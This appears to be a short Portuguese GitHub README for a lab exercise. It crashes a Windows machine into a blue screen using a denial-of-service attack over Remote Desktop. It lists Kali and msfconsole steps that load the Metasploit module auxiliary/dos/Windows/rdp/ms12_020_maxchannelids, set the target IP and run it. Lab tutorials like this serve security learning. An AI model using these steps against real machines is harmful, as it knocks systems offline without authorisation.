 # Ataque-DoS-no-Windows-com-RDP
## Gerando tela azul no Windows utilizando exploit no Kali

<p>●	No Windows habilitar Desktop remoto</p>
<p>●	Kali</p>
<p>●	msfconsole</p>
<p>	search rdp</p>
<p>●	Use auxiliary/dos/Windows/rdp/ms12_020_maxchannelids</p>
<p>●	Set rhosts  ip do destino</p>
<p>●	Run/exploit</p>

<p>Gerando tela azul no Windows</p>

![tela azul](https://github.com/user-attachments/assets/63610a58-c6f3-4ecb-97e5-1bf6735cccfa)
